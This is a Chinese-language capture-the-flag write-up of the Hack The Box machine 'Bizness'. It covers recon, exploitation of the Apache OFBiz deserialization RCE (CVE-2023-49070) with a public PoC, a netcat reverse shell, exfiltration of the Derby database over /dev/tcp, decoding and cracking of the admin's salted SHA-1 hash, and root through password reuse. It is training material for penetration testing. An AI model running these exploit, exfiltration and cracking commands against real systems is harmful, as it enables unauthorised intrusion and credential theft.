

## Bizness

#### Apache OFBiz 默认数据库：
##### OFBiz 自带一个 Apache Derby（嵌入式 Java 数据库），作为开箱即用的默认数据库
#### 使用python3转十六进制
```
[★]$ nmap 10.129.96.208 -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-22 08:52 CDT
Nmap scan report for 10.129.96.208
Host is up (0.011s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
|_http-server-header: nginx/1.18.0
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_http-title: Did not follow redirect to https://bizness.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```
[★]$ echo '10.129.96.208 bizness.htb' | sudo tee -a /etc/hosts
```
#### 浏览到端口80将我们重定向到应用程序的https端点，端口443。我们找到了静态的商业网站，没有任何显著的功能
#### 我们使用feroxbuster执行目录扫描并发现托管在此上的潜在端点服务器。
#### 一些404
```
[★]$ feroxbuster -k -u https://bizness.htb
<SNIP>
404      GET        1l       61w      682c https://bizness.htb/META-INF
500      GET        7l       13w      177c https://bizness.htb/common/with
500      GET        7l       13w      177c https://bizness.htb/images/icons/wusage
500      GET        7l       13w      177c https://bizness.htb/common/JavaScript
404      GET        1l       61w      682c https://bizness.htb/images/META-INF
500      GET        7l       13w      177c https://bizness.htb/common/js/jquery/js
404      GET        1l       61w      682c https://bizness.htb/content/META-INF
404      GET        1l       61w      682c https://bizness.htb/catalog/META-INF
404      GET        1l       61w      682c https://bizness.htb/common/META-INF
<SNIP>
```
#### -k：忽略 TLS/SSL 证书校验（HTB 常用，不会因自签证书报错）|-u：目标 URL|默认情况下这条命令会用内置默认字典去爆破根路径，线程数、扩展名等都用默认值
#### 输出返回许多端点，其中许多端点都包含WEB-INF的路径。我们注意，它们还返回404错误代码。
#### 我们尝试浏览到上述端点之一，如/content/，并被重定向到Apache OFBiz服务的登录页面。

#### 查看页面的页脚，我们看到该服务的版本被公开，即发布18.12
#### Apache OFBiz （Open For Business）是一个开源的企业资源规划（ERP）系统用Java编写的。它提供了一套企业应用程序，可以集成和自动化许多组织的业务流程
Copyright (c) 2001-2025 The Apache Software Foundation. Powered by Apache OFBiz. Release 18.12 
### Foothold
#### 研究这个版本的Apache OFBiz让我们发现了一个关于预认证的信息，远程代码执行漏洞，分配CVE-2023-49070。
https://socprime.com/blog/cve-2023-49070-exploit-detection-a-critical-pre-auth-rce-vulnerability-in-apache-ofbiz/
#### 该漏洞源于OFBiz中不再正式使用的已弃用组件维护，但仍然存在于服务中，接受和处理XML-RPC请求。在兴奋中级别，所讨论的组件容易受到不安全反序列化的影响(这是常见的发生在基于java的应用程序中)。使用诸如ysoserial之类的工具，此漏洞可以用来执行任意代码。
访问这个https://github.com/frohoff/ysoserial/页面，下面Installation，点击latest release jar
#### 自披露以来，GitHub上现在存在一些概念验证（PoC）存储库，例如这一个。按照指示，我们首先将ysoserial.jar文件下载到本地系统。
https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC
```
[★]$ ls
ysoserial-all.jar
[★]$ wget https://raw.githubusercontent.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC/refs/heads/main/exploit.py
```
#### ysoserial需要一个可用的Java安装，这是特定于平台的，超出了本文的范围这篇文章。本教程使用Java-11-openjdk。在大多数Linux发行版上，您可以使用以下命令检查备选的java安装命令:
```
[★]$ sudo update-alternatives --config java
There are 2 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                         Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      auto mode
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java   1111      manual mode
  2            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      manual mode

Press <enter> to keep the current choice[*], or type selection number: 1
update-alternatives: using /usr/lib/jvm/java-11-openjdk-amd64/bin/java to provide /usr/bin/java (java) in manual mode
[★]$ java -version
openjdk version "11.0.22" 2024-01-16
OpenJDK Runtime Environment (build 11.0.22+7-post-Debian-2)
OpenJDK 64-Bit Server VM (build 11.0.22+7-post-Debian-2, mixed mode, sharing)
```
#### 一旦下载了jar并复制了Python脚本，我们就会尝试运行这个漏洞。的Repository为我们提供了这些选项：
#### 在尝试获取shell之前，我们看看是否可以通过以下方式向攻击机器发送ICMP数据包执行ping命令。我们首先使用tcpdump为这些数据包设置一个监听器：
```
sudo tcpdump -i 2 icmp
```
#### 然后，我们使用以下参数运行该漏洞：
```
[★]$ python3 exploit.py https://bizness.htb rce "ping -c 5 10.10.14.149"
Not Sure Worked or not
```
```
01:18:00.595489 IP htb-ntvuhefriq > bizness.htb: ICMP echo reply, id 49092, seq 1, length 64
01:18:00.799245 IP htb-ntvuhefriq > 10.10.14.1: ICMP echo request, id 21300, seq 1, length 64
01:18:00.808036 IP 10.10.14.1 > htb-ntvuhefriq: ICMP echo reply, id 21300, seq 1, length 64
01:18:01.596390 IP bizness.htb > htb-ntvuhefriq: ICMP echo request, id 49092, seq 2, length 64
01:18:01.596408 IP htb-ntvuhefriq > bizness.htb: ICMP echo reply, id 49092, seq 2, length 64
01:18:01.799469 IP htb-ntvuhefriq > 10.10.14.1: ICMP echo request, id 21326, seq 1, length 64
01:18:01.809366 IP 10.10.14.1 > htb-ntvuhefriq: ICMP echo reply, id 21326, seq 1, length 64
01:18:02.597950 IP bizness.htb > htb-ntvuhefriq: ICMP echo request, id 49092, seq 3, length 64
01:18:02.597965 IP htb-ntvuhefriq > bizness.htb: ICMP echo reply, id 49092, seq 3, length 64
01:18:02.798392 IP htb-ntvuhefriq > 10.10.14.1: ICMP echo request, id 21352, seq 1, length 64
01:18:02.807262 IP 10.10.14.1 > htb-ntvuhefriq: ICMP echo reply, id 21352, seq 1, length 64
01:18:03.599246 IP bizness.htb > htb-ntvuhefriq: ICMP echo request, id 49092, seq 4, length 64
01:18:03.599261 IP htb-ntvuhefriq > bizness.htb: ICMP echo reply, id 49092, seq 4, length 64
01:18:03.800642 IP htb-ntvuhefriq > 10.10.14.1: ICMP echo request, id 21378, seq 1, length 64
01:18:03.809295 IP 10.10.14.1 > htb-ntvuhefriq: ICMP echo reply, id 21378, seq 1, length 64
01:18:04.600514 IP bizness.htb > htb-ntvuhefriq: ICMP echo request, id 49092, seq 5, length 64
01:18:04.600531 IP htb-ntvuhefriq > bizness.htb: ICMP echo reply, id 49092, seq 5, length 64
```
#### 这证实了我们可以在目标上运行任意命令，现在我们继续获取a反向壳。
#### 我们首先使用Netcat在端口4444上设置一个监听器：
```
[★]$ nc -nlvp 4444
listening on [any] 4444 ...
```
```
[★]$ python3 exploit.py https://bizness.htb shell 10.10.14.149:4444Not Sure Worked or not 
```
```
[★]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.149] from (UNKNOWN) [10.129.252.33] 45964
bash: cannot set terminal process group (624): Inappropriate ioctl for device
bash: no job control in this shell
ofbiz@bizness:/opt/ofbiz$ id
id
uid=1001(ofbiz) gid=1001(ofbiz-operator) groups=1001(ofbiz-operator)
```
#### Privilege Escalation
```
ofbiz@bizness:/opt/ofbiz$ ls -al /opt/ofbiz
<SNIP>
drwxr-xr-x 19 ofbiz ofbiz-operator  4096 Dec 21  2023 framework
<SNIP>
```
#### 我们的研究使我们得出结论，框架/目录包含了大部分的我们可能会感兴趣的配置文件，因为它包含所有所谓的组件运行OFBiz。
```
ofbiz@bizness:/opt/ofbiz$ cd framework
cd framework
ofbiz@bizness:/opt/ofbiz/framework$ ls -la
drwxr-xr-x 19 ofbiz ofbiz-operator 4096 Dec 21  2023 .
drwxr-xr-x 15 ofbiz ofbiz-operator 4096 Jan  3  2024 ..
drwxr-xr-x  8 ofbiz ofbiz-operator 4096 Dec 21  2023 base
drwxr-xr-x  5 ofbiz ofbiz-operator 4096 Dec 21  2023 catalina
drwxr-xr-x 13 ofbiz ofbiz-operator 4096 Dec 21  2023 common
-rw-r--r--  1 ofbiz ofbiz-operator 1651 Dec 16  2023 component-load.xml
drwxr-xr-x  4 ofbiz ofbiz-operator 4096 Dec 21  2023 datafile
drwxr-xr-x  2 ofbiz ofbiz-operator 4096 Dec 21  2023 documents
drwxr-xr-x 11 ofbiz ofbiz-operator 4096 Dec 21  2023 entity
drwxr-xr-x  8 ofbiz ofbiz-operator 4096 Dec 21  2023 entityext
drwxr-xr-x  3 ofbiz ofbiz-operator 4096 Dec 21  2023 images
drwxr-xr-x  8 ofbiz ofbiz-operator 4096 Dec 21  2023 minilang
drwxr-xr-x  4 ofbiz ofbiz-operator 4096 Dec 21  2023 resources
drwxr-xr-x  7 ofbiz ofbiz-operator 4096 Dec 21  2023 security
drwxr-xr-x 10 ofbiz ofbiz-operator 4096 Dec 21  2023 service
drwxr-xr-x  3 ofbiz ofbiz-operator 4096 Dec 21  2023 start
drwxr-xr-x  5 ofbiz ofbiz-operator 4096 Dec 21  2023 testtools
drwxr-xr-x  7 ofbiz ofbiz-operator 4096 Dec 21  2023 webapp
drwxr-xr-x 11 ofbiz ofbiz-operator 4096 Dec 21  2023 webtools
drwxr-xr-x  6 ofbiz ofbiz-operator 4096 Dec 21  2023 widget
```
#### 一个名为security的子目录引起了我们的注意，我们进行了进一步的调查。OFBiz组件都以相同的方式结构化，包含一个ofbusiness -component.xml文件，以及config/、Data /和src/目录等。在config目录中，我们找到security。属性文件，其中包含以下条目：
```
ofbiz@bizness:/opt/ofbiz/framework/security$ ls -la
ls -la
total 32
drwxr-xr-x  7 ofbiz ofbiz-operator 4096 Dec 21  2023 .
drwxr-xr-x 19 ofbiz ofbiz-operator 4096 Dec 21  2023 ..
drwxr-xr-x  2 ofbiz ofbiz-operator 4096 Dec 21  2023 config
drwxr-xr-x  2 ofbiz ofbiz-operator 4096 Dec 21  2023 data
drwxr-xr-x  2 ofbiz ofbiz-operator 4096 Dec 21  2023 dtd
drwxr-xr-x  2 ofbiz ofbiz-operator 4096 Dec 21  2023 entitydef
-rw-r--r--  1 ofbiz ofbiz-operator 1779 Oct 13  2023 ofbiz-component.xml
drwxr-xr-x  5 ofbiz ofbiz-operator 4096 Dec 21  2023 src
```
```
ofbiz@bizness:/opt/ofbiz/framework/security/config$ cat security.properties
<SNIP>
# -- specify the type of hash to use for one-way encryption, will be passed to java.security.MessageDigest.getInstance() --
# -- options may include: SHA, PBKDF2WithHmacSHA1, PBKDF2WithHmacSHA256, PBKDF2WithHmacSHA384, PBKDF2WithHmacSHA512 and etc
password.encrypt.hash.type=SHA
<SNIP>
```
#### 这是OFBiz的默认安装，因为密码的哈希算法似乎没有已从SHA-1更改。这对我们来说是个好消息，因为SHA-1不再被认为是一个安全的散列算法，所以如果我们能找到存储的密码，也许就能破解了。这引出了下一个问题，即密码和其他信息存储在Apache中的哪个位置OFBiz。我们的研究表明，默认情况下，OFBiz使用嵌入式Java数据库Apache Derby
### Derby
#### 通过阅读各种文档，我们可以得出Derby文件存储在其中的结论runtime/ 目录：
https://cwiki.apache.org/confluence/display/OFBIZ/Browsing+Derby+Database+in+Eclipse
```
ofbiz@bizness:/opt/ofbiz/framework$ ls -al /opt/ofbiz/runtime/data/derby
total 24
drwxr-xr-x 5 ofbiz ofbiz-operator 4096 Dec 21  2023 .
drwxr-xr-x 3 ofbiz ofbiz-operator 4096 Dec 21  2023 ..
-rw-r--r-- 1 ofbiz ofbiz-operator 2320 Sep 24 02:07 derby.log
drwxr-xr-x 5 ofbiz ofbiz-operator 4096 Sep 24 02:07 ofbiz
drwxr-xr-x 5 ofbiz ofbiz-operator 4096 Sep 24 02:07 ofbizolap
drwxr-xr-x 5 ofbiz ofbiz-operator 4096 Sep 24 02:07 ofbiztenant
```
#### 由于Derby是嵌入式数据库，因此它没有可以连接的端口，也没有单个文件我们可以枚举（比如在SQLite中）。数据以组合形式存储不同的文件和文件夹，以及数据团。幸运的是，我们可以使用Derby-tools来理解这种格式
```
[★]$ sudo apt install derby-tools
```
#### 我们首先将derby目录中的ofbiz文件夹泄露到本地系统。在本地，我们设置了一个向文件写入的Netcat侦听器
```
[★]$ nc -nlvp 4444 > ofbiz.tar
listening on [any] 4444 ...
```
```
ofbiz@bizness:/opt/ofbiz/framework$ cd /opt/ofbiz/runtime/data/derby
ofbiz@bizness:/opt/ofbiz/runtime/data/derby$ tar cvf ofbiz.tar ofbiz
ofbiz@bizness:/opt/ofbiz/runtime/data/derby$ cat ofbiz.tar > 
<a/derby$ cat ofbiz.tar > /dev/tcp/10.10.14.149/4444
```
#### 下载后，我们提取存档文件并使用ij检查数据库是否受到攻击机器。
```
[★]$ tar xvf ofbiz.tar
[★]$ ij
ij version 10.14
ij> 
```
#### 连接到实际的数据库并不是很简单，但需要更多的研究我们对这个命令：
https://docs.mulesoft.com/retail/latest/ofbiz-setup-config#troubleshooting
```
ij> connect 'jdbc:derby:/opt/ofbiz/runtime/data/derby/ofbiz';
ERROR XJ004: Database '/opt/ofbiz/runtime/data/derby/ofbiz' not found.
ij> connect 'jdbc:derby:./ofbiz';
ij> SHOW TABLES;
TABLE_SCHEM         |TABLE_NAME                    |REMARKS             
------------------------------------------------------------------------
<SNIP>
OFBIZ               |USER_LOGIN                    |                    
OFBIZ               |USER_LOGIN_HISTORY            |                    
OFBIZ               |USER_LOGIN_PASSWORD_HISTORY   |                    
OFBIZ               |USER_LOGIN_SECURITY_GROUP     |                    
OFBIZ               |USER_LOGIN_SECURITY_QUESTION  |                    
OFBIZ               |USER_LOGIN_SESSION            |                    
OFBIZ               |USER_PREFERENCE               |                    
OFBIZ               |USER_PREF_GROUP_TYPE          |
SNIP>
```
```
ij> SELECT * FROM OFBIZ.USER_LOGIN;
system   |NULL               
anonymous|NULL               
admin    |$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I      
```
#### 我们获得admin用户的散列密码。然而，我们注意到它被格式化为特殊的方式。在这个散列上运行hashid或其他散列标识符不会产生任何结果，并且将它粘贴到JohnTheRipper或Hashcat中也会导致错误。不幸的是，关于这个主题的文档非常缺乏，所以我们需要我们自己调查。我们回到远程机器上的shell并开始查看一些Java代码
### Source Code Review
#### 我们返回到框架目录，并查看其中的基本文件夹。正如前面提到的,框架包含OFBiz的所有组件，base是主要组件。此外,src /通常是Java项目的根目录，所以我们来看看它包含什么。
```
ofbiz@bizness:/opt/ofbiz/framework/base/src/main/java/org/apache/ofbiz/base$ ls -la                     
total 64
drwxr-xr-x 14 ofbiz ofbiz-operator 4096 Dec 21  2023 .
drwxr-xr-x  3 ofbiz ofbiz-operator 4096 Dec 21  2023 ..
drwxr-xr-x  2 ofbiz ofbiz-operator 4096 Dec 21  2023 component
drwxr-xr-x  2 ofbiz ofbiz-operator 4096 Dec 21  2023 concurrent
drwxr-xr-x  2 ofbiz ofbiz-operator 4096 Dec 21  2023 config
drwxr-xr-x  2 ofbiz ofbiz-operator 4096 Dec 21  2023 container
drwxr-xr-x  3 ofbiz ofbiz-operator 4096 Dec 21  2023 conversion
drwxr-xr-x  2 ofbiz ofbiz-operator 4096 Dec 21  2023 crypto
drwxr-xr-x  2 ofbiz ofbiz-operator 4096 Dec 21  2023 html
drwxr-xr-x  3 ofbiz ofbiz-operator 4096 Dec 21  2023 lang
drwxr-xr-x  2 ofbiz ofbiz-operator 4096 Dec 21  2023 location
drwxr-xr-x  2 ofbiz ofbiz-operator 4096 Dec 21  2023 metrics
-rw-r--r--  1 ofbiz ofbiz-operator 2598 Oct 13  2023 OfbizDslDescriptorForEclipse.dsld
-rw-r--r--  1 ofbiz ofbiz-operator 2701 Oct 13  2023 OfbizDslDescriptorForIntelliJ.gdsl
drwxr-xr-x  2 ofbiz ofbiz-operator 4096 Dec 21  2023 test
drwxr-xr-x  7 ofbiz ofbiz-operator 4096 Dec 21  2023 util
```
#### 我们通过选项卡浏览路径并看到一些包。值得注意的是，我们看到了加密包，我们cd到
```
ofbiz@bizness:/opt/ofbiz/framework/base/src/main/java/org/apache/ofbiz/base$ cd crypto    
<k/base/src/main/java/org/apache/ofbiz/base/crypto$ ls -la
total 44
drwxr-xr-x  2 ofbiz ofbiz-operator  4096 Dec 21  2023 .
drwxr-xr-x 14 ofbiz ofbiz-operator  4096 Dec 21  2023 ..
-rw-r--r--  1 ofbiz ofbiz-operator  5647 Oct 13  2023 BlowFishCrypt.java
-rw-r--r--  1 ofbiz ofbiz-operator  5542 Oct 13  2023 DesCrypt.java
-rw-r--r--  1 ofbiz ofbiz-operator 15405 Oct 13  2023 HashCrypt.java
-rw-r--r--  1 ofbiz ofbiz-operator  1937 Oct 13  2023 Main.java
```
#### 正如我们所料，我们看到了加密相关的文件，更重要的是，看到了HashCrypt.java文件，它似乎与散列算法有关。看一下它的各种函数，我们的入口点是comparePassword方法，它确定所提供密码的散列类型：
```
<k/base/src/main/java/org/apache/ofbiz/base/crypto$ cat HashCrypt.java
<SNIP>
public static boolean comparePassword(String crypted, String defaultCrypt, String password) {
        if (crypted.startsWith("{PBKDF2")) {
            return doComparePbkdf2(crypted, password);
        } else if (crypted.startsWith("{")) {
            return doCompareTypePrefix(crypted, defaultCrypt, password.getBytes(UtilIO.getUtf8()));
        } else if (crypted.startsWith("$")) {
            return doComparePosix(crypted, defaultCrypt, password.getBytes(UtilIO.getUtf8()));
        } else {
            return doCompareBare(crypted, defaultCrypt, password.getBytes(UtilIO.getUtf8()));
        }
    }
<SNIP>
 private static boolean doComparePosix(String crypted, String defaultCrypt, byte[] bytes) {
        int typeEnd = crypted.indexOf("$", 1);
        int saltEnd = crypted.indexOf("$", typeEnd + 1);
        String hashType = crypted.substring(1, typeEnd);
        String salt = crypted.substring(typeEnd + 1, saltEnd);
        String hashed = crypted.substring(saltEnd + 1);
        return hashed.equals(getCryptedBytes(hashType, salt, bytes));
    }
<SNIP>
private static String getCryptedBytes(String hashType, String salt, byte[] bytes) {
        try {
            MessageDigest messagedigest = MessageDigest.getInstance(hashType);
            messagedigest.update(salt.getBytes(UtilIO.getUtf8()));
            messagedigest.update(bytes);
            return Base64.encodeBase64URLSafeString(messagedigest.digest()).replace('+', '.');
        } catch (NoSuchAlgorithmException e) {
            throw new GeneralRuntimeException("Error while comparing password", e);
        }
    }
<SNIP>
```
#### 我们已经知道我们处理的是SHA-1密码，所以第二个else if语句适用于此配置。我们看到它调用doComparePosix方法
#### 该方法将字符串解析为它的盐和散列类型，以及剩余的字节。我们的散列
#### 因此，我们知道hashType是SHA， salt是一个字母d，等等（uP0_QaVBpDWFeo8-dRzDqRwXQ2I）是散列字节。然后我们移动到在上述方法返回时调用的最后一个方法，即getCryptedBytes
#### 这是问题的关键，因为它也解释了为什么散列的格式“不同”我们可以预料。首先使用散列类型创建并实例化MessageDigest对象沙。然后用UTF8编码的salt字节更新它。最后，使用密码字节数（明文）。然后使用Base64URLSafeString对其摘要进行编码然后将所有+字符替换为句点字符（。）．因此，为了将这个散列转换成Hashcat可以识别的东西，我们必须撤销将MessageDigest生成的原始字节编码为十六进制。在文件的顶部，我们看到encodeBase64URLSafeString是从org.apache.commons.codec.binary.Base64导入的，所以我们看一下文档：
https://commons.apache.org/proper/commons-codec/apidocs/src-html/org/apache/commons/codec/binary/Base64.html#line.334

#### 因此，我们现在知道这些字符是base64编码的，但是没有填充，并且带有+和/字符分别由-和_替换。在编码之后调用getCryptedBytes函数中的replace（）冗余，所以我们可以忽略它。记住了所有这些，我们现在可以继续格式化这个散列。我们在机器上启动一个交互式Python控制台：我们首先将哈希的编码部分粘贴到一个名为enc的变量中，然后撤消该字符替换:
```
[★]$ python3
Python 3.11.2 (main, Nov 30 2024, 21:22:50) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> enc = "uP0_QaVBpDWFeo8-dRzDqRwXQ2I"
>>> enc = enc.replace('_', '/')
>>> enc = enc.replace('-', '+')
>>> enc
'uP0/QaVBpDWFeo8+dRzDqRwXQ2I'
```
#### 然后我们导入Base64模块来获取实际的字节数：
```
>>> import base64
>>> base64.b64decode(enc.encode('utf-8'))
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.11/base64.py", line 88, in b64decode
    return binascii.a2b_base64(s, strict_mode=validate)
           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
binascii.Error: Incorrect padding
```
#### 这将失败，因为字符串没有正确填充；因此，我们附加了一个=字符：
```
>>> enc += '='
>>> dec = base64.b64decode(enc.encode('utf-8'))
>>> dec
b'\xb8\xfd?A\xa5A\xa45\x85z\x8f>u\x1c\xc3\xa9\x1c\x17Cb'
```
#### 最后，我们导入binascii以将字节转换为十六进制。
```
>>> import binascii
>>> binascii.hexlify(dec)
b'b8fd3f41a541a435857a8f3e751cc3a91c174362'
```
#### 有了这个散列，我们现在可以尝试使用Hashcat来破解它。我们把它保存在一个文件中，然后制作当然要附加salt，我们记得它是一个d字符。
```
[★]$ echo 'b8fd3f41a541a435857a8f3e751cc3a91c174362:d' > hash
[★]$ cat hash
b8fd3f41a541a435857a8f3e751cc3a91c174362:d
```
#### 模式120下的Hashcat期望的SHA-1密码格式如下：<hash>:<salt>因此，是：d
#### 最后，我们使用rock .txt运行Hashcat，使用-m 120表示SHA-1：
```
[★]$ cp /usr/share/wordlists/rockyou.txt.gz .
[★]$ gunzip  rockyou.txt.gz
[★]$ hashcat -m 120 -a 0 hash rockyou.txt
<SNIP>
b8fd3f41a541a435857a8f3e751cc3a91c174362:d:monkeybizness  
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 120 (sha1($salt.$pass))
Hash.Target......: b8fd3f41a541a435857a8f3e751cc3a91c174362:d
Time.Started.....: Wed Sep 24 03:20:05 2025 (0 secs)
Time.Estimated...: Wed Sep 24 03:20:05 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:  6309.4 kH/s (0.11ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 1478656/14344385 (10.31%)
Rejected.........: 0/1478656 (0.00%)
Restore.Point....: 1476608/14344385 (10.29%)
Restore.Sub.#2...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#2....: moon789 -> monkey-moo
```
monkeybizness  
#### 哈希几乎立即被破解，我们获得了密码猴业务。我们来看看密码在机器上重用，通过尝试通过su切换到root用户：
```
ofbiz@bizness:~$ su root 
Password: monkeybizness

root@bizness:/home/ofbiz# ls
user.txt
root@bizness:/home/ofbiz# cat /root/root.txt
```
